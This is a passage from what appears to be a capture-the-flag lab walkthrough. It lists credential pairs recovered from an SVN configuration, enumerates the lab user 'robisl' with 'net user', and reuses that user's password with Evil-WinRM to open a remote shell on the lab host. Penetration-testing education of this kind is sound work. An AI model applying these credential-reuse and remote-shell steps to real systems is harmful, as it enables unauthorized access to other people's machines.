     ronkay = onesare
    rubkei = the
    rupkel = sheeps
    ryakel = imtired
    sabken = drjones
    samken = aqua
    sapket = hamburger
    sarkil = friday
    

nathen’s password matches what I used to get into Azure DevOps. robisl (one of
the users with a home directory from above) is on the list with the password
“wolves11”. robisl is also in the “Remote Management Users” group:

    
    
    W:\svnrepos\www\conf>net user robisl
    net user robisl
    User name                    robisl
    Full Name                    Robin Islip
    Comment                      
    User's comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            2020-04-05 21:27:26
    Password expires             Never
    Password changeable          2020-04-05 21:27:26
    Password required            No
    User may change password     No
    
    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   2020-08-03 12:41:02
    
    Logon hours allowed          All
    
    Local Group Memberships      *Production           *Remote Management Use
    Global Group memberships     *None                 
    The command completed successfully.
    

That means robisl can connect over WinRM.

### EvilWinRM

If robisl reuses this password from SVN on the box, [Evil-
WinRM](https://github.com/Hackplayers/evil-winrm) should provide a shell. It
does:

    
    
    root@kali# evil-winrm -i 10.10.10.203 -u robisl -p wolves11
    
    Evil-WinRM shell v2.3
    